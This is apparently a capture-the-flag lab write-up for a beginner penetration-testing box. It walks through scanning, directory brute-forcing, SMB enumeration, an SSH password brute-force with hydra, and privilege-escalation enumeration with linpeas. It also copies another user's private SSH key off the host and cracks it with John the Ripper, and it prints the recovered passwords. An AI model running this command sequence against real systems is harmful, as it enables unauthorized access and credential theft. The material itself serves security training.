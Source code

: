 # Basic Penetration Testing Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>
```
nmap [Scan Type...] [Options] {target specification}
```
Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE



### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>


![nmap](./nmap)


**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```

![dirb](./imgs/dirb.png)

**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations

![enum4linux](./imgs/enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through

![hydra](./imgs/hydra.png)

**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./imgs/linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./imgs/john.png)

**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
